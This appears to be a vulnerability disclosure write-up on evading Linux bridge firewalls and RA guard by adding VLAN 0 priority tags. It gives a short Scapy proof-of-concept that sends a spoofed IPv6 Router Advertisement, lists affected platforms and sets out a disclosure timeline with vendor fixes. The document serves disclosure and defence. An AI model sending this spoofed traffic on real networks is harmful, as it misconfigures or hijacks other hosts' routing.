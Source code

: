 # Bridge firewalling "bypass" using VLAN 0

L2 networks are insecure by default, vulnerable to ARP, DHCP, Router Advertisement spoofing to name a few.
Over the years security mechanisms have been implemented to detect and or stop those attacks.
As usual when you try to filter anything, you MUST use an allow list approach, else you risk letting some unwanted traffic go through.

I was not able to find anything about VLAN 0 attacks, so this might be a novel attack.

The packet syntax in this article is the one used by [Scapy](https://scapy.readthedocs.io/)

## VLAN 0

Many people know that VLAN 1 is special, and that VLAN 0 and 4095 are reserved.
Now to be more precise, VLAN 0, i.e. having `VID` set to `0x000`, "indicates that the frame does not carry a VLAN ID;
in this case, the `802.1Q` tag specifies only a priority (in `PCP` and `DEI` fields) and is referred to as a priority tag" (Wikipedia).

When Linux receives a `802.1Q` packet, it looks up if a VLAN interface with the correct `VID` exists to handle this packet, else it'll be dropped.
For example, a packet with `VID` == 42 would go to `eth0.42`.

Now if `VID` == `0x000`, Linux ignores/removes the VLAN header and handles it on the untagged interface, ie `eth0`.
To be more precise, on raw sockets (tcpdump) you will see the header (always use `tcpdump -e`).
This means that any software that reads packets from raw sockets must take care of ignoring `VID` == `0x000` packets,
and I discovered the hard way trying to make ucarp work, that on some Cisco UCS servers always add a priority tag.

To sum up, using Scapy syntax, both
```
Ether()/IP(dst="192.168.2.1")/ICMP()
Ether()/Dot1Q(vlan=0)/IP(dst="192.168.2.1")/ICMP()
```
will trigger the same response from 192.168.2.1, but for the first packet, `ethertype` is `0x0800` (IPv4), and for the second it's `0x8100` (802.1Q).
Even if semantically they are the same, they are definitely different at L2, and that can be a problem.

Now the good news is that Linux also supports `802.1AD`, and it will remove any number of VLAN 0 headers, so
```
Ether()/Dot1Q(vlan=0)/Dot1AD(vlan=0)/Dot1Q(vlan=0)/IP(dst="192.168.2.1")/ICMP()
```
Will also work

## Linux firewalling and VLAN 0

Linux can do bridge firewalling using:
1) `XDP`
2) `tc`
3) `ebtables`
4) `nftables` `netdev` tables
5) `ip(6)tables` with `br_netfilter` module and `net.bridge.bridge-nf-call-ip(6)tables=1`
6) `nftables` `bridge` tables

In all those cases, the rules apply to the "full" packet, i.e. with the VLAN 0 header, meaning that
```
ip6tables -A FORWARD -p ipv6-icmp -m icmp6 --icmpv6-type 134 -j DROP
```
will block IPv6 Router Advertisements without VLAN 0 only, as `ip6tables` will handle "switched" packets with `ethertype` == `0x86dd` only

Enabling `bridge-nf-filter-vlan-tagged` allows to remove 1 level of VLAN headers, but we can just put 2 levels and be done.

## POC

Launch Scapy
```
ra = Ether()/Dot1Q(vlan=0)/Dot1Q(vlan=0)
ra /= IPv6(dst='ff02::1')
ra /= ICMPv6ND_RA(chlim=64, prf='High', routerlifetime=1800)
ra /= ICMPv6NDOptSrcLLAddr(lladdr=get_if_hwaddr('eth0'))
ra /= ICMPv6NDOptPrefixInfo(prefix="2001:db8:1::", prefixlen=64, validlifetime=1810, preferredlifetime=1800)
sendp(ra)
```
(If it works, it'll misconfigure all devices in the same L2 for 30min, you have been warned)

## Tested Software

- Openstack: Vulnerable when using Neutron ML2 with Linuxbridge driver (iptables bridge firewall + ebtables rules), [public bug report](https://bugs.launchpad.net/neutron/+bug/1884341)
- LXD: Vulnerable when using bridged interfaces (security.*_filtering bypass), [fixed the next day](https://github.com/lxc/lxd/pull/7575)
- Microsoft Hyper-V: [CVE-2020-17040](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-17040)
- VMware ESXi: no DHCP snooping / RA guard by default, so nothing to bypass ;)
- Libvirt: nwfilter predefined rules take an allow list approach, so this is safe.

I don't have any managed switch with RA guard to play with.

## Timeline

* 2020-06-19: Initial report to OpenStack, based on code review only
* 2020-06-22: Initial report to LXD
* 2020-06-23: LXD fixed in master (allow ARP/IP/IP6 and drop everything else)
* 2020-07-01: LXD 4.3 released
* 2020-07-01: Initial report to Microsoft
* 2020-07-03: After a good amount of back and forth, OpenStack team confirm the issue
* 2020-08-17: Microsoft tell me that they plan to release a fix on November 10th
* 2020-08-20: OpenStack issue is made public
* 2020-08-20: Sent an [email](https://lore.kernel.org/netdev/CAOdf3grDKBkYmt54ZAzG1zZ6zz1JXeoHSv67_Fc9-nRiY662mQ@mail.gmail.com/) to netdev mailing list to hopefully get feedback on the issue
* 2020-10-07: Microsoft attributes a pretty generous bounty for this report
* 2020-11-10: Microsoft release fixes

## Acknowledgments

- Thanks to OpenStack team for their patience testing my theory
- Thanks to LXD for their speedy fix
- Thanks to Microsoft for their generous bounty
